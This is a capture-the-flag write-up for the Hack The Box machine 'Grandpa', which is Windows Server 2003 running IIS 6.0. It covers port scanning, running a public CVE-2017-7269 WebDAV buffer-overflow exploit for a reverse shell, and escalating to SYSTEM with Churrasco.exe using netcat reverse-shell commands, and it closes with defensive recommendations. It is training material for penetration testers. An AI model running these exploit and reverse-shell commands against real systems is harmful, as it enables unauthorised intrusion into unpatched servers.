# HTB - Grandpa

**IP Address:** `10.10.10.14`  
**OS:** Windows Server 2003  
**Difficulty:** Easy  
**Tags:** #IIS6, #WebDAV, #BufferOverflow, #SeImpersonatePrivilege, #Churrasco, #Windows-Exploitation

---
## Synopsis

Grandpa is an easy Windows machine vulnerable to a classic **IIS 6.0 WebDAV buffer overflow (CVE-2017-7269)**.  
Exploitation leads to an initial shell as a low-privileged user. Privilege escalation is achieved by abusing the **SeImpersonatePrivilege** via **Churrasco.exe** on Windows Server 2003 to obtain `NT AUTHORITY\SYSTEM`.

---
## Skills Required

- Basic Windows service enumeration  
- Knowledge of IIS and WebDAV vulnerabilities  
- Understanding of Windows privilege escalation techniques  

## Skills Learned

- Exploiting **IIS 6.0 PROPFIND buffer overflow**  
- Abusing **SeImpersonatePrivilege** on legacy Windows systems  
- Using **Churrasco.exe** for SYSTEM escalation  

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

We begin by checking if the target is alive with ICMP:

```bash
ping -c 1 10.10.10.14
```


The machine responds, confirming it is alive.

---
### 1.2 Port Scanning

We scan all 65,535 TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.14 -oG allPorts
```



Extract the open ports:

```bash
extractPorts allPorts
```



Only port **80/tcp** is open.

---
### 1.3 Targeted Scan

We run a deeper scan with version detection and default NSE scripts:

```bash
nmap -p80 -sC -sV 10.10.10.14 -oN targeted
```

```bash
cat targeted -l java
```



**Findings:**

| Port | Service | Version/Description |
|------|---------|---------------------|
| 80   | HTTP    | Microsoft IIS 6.0 with WebDAV enabled |

The service runs **IIS 6.0 WebDAV**, an outdated version known to be vulnerable.

---
## 2. Exploitation – IIS 6.0 WebDAV Buffer Overflow

During the targeted scan we identify **WebDAV**, a set of HTTP extensions that allows collaborative editing and file management. IIS 6.0 is known to be vulnerable to **CVE-2017-7269**.

Exploit reference: [IIS6 Exploit (CVE-2017-7269)](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269)

We clone the exploit:

```bash
git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
```



This is a classic **buffer overflow** triggered via the **PROPFIND** WebDAV request:



The exploit script requires:

- `targetip`  
- `targetport`  
- `reverseip`  
- `reverseport`

We run the exploit and set up a listener with `nc`:

```bash
python2 iis6\ reverse\ shell 10.10.10.14 80 10.10.14.2 443
```



✅ Reverse shell obtained.

---
## 3. Post-Exploitation Enumeration

We check our privileges and system structure:



On Windows Server 2003, user profiles are located in **`Documents and Settings`** instead of `Users`:



Checking privileges:



We have **SeImpersonatePrivilege** enabled, which can be exploited for privilege escalation.

---
## 4. Privilege Escalation – Churrasco.exe

Normally, **JuicyPotato** would be used, but it does not support Windows Server 2003 due to missing CLSIDs. Instead, we use **Churrasco.exe**, a community version adapted for Windows Server 2003.

Exploit reference: [Privilege Escalation – Churrasco.exe](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/)

We upload `churrasco.exe` via an SMB share:

```bash
impacket-smbserver smbFolder $(pwd)
```

On the victim:

```powershell
dir \\10.10.14.2\smbFolder\
copy \\10.10.14.2\smbFolder\churrasco.exe churrasco.exe
```



Move to `Temp` directory if copying fails.  

Running without arguments fails, so we must specify a command:



To get a more stable shell, we upload `nc.exe` via SMB and then execute it with Churrasco:

```bash
.\churrasco.exe "\\10.10.14.2\smbFolder\nc.exe -e cmd 10.10.14.2 4444"
```

If it fails, try renaming the share or copying locally:

```bash
copy "\\10.10.14.2\smb\nc.exe" nc.exe
.\churrasco.exe "nc.exe -e cmd 10.10.14.2 4444"
```



✅ Privilege escalation successful – we are `NT AUTHORITY\SYSTEM`.

---
## 5. Flags

With SYSTEM access, we can retrieve both flags:



✅ **User flag obtained**  
✅ **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **Port Scanning** → Detected IIS 6.0 on port 80.  
2. **WebDAV Buffer Overflow (CVE-2017-7269)** → Remote code execution with reverse shell.  
3. **Privilege Escalation** → Abused `SeImpersonatePrivilege` using **Churrasco.exe**.  
4. **Post-Exploitation** → Retrieved user and root flags as SYSTEM.

---
## Defensive Recommendations

- **Upgrade IIS 6.0**: It is end-of-life and should be replaced with a supported version.  
- **Disable WebDAV** if not required.  
- **Restrict Privileges**: Remove `SeImpersonatePrivilege` from unnecessary accounts.  
- **Monitor for Exploits**: Log and alert on abnormal WebDAV requests such as `PROPFIND`.  
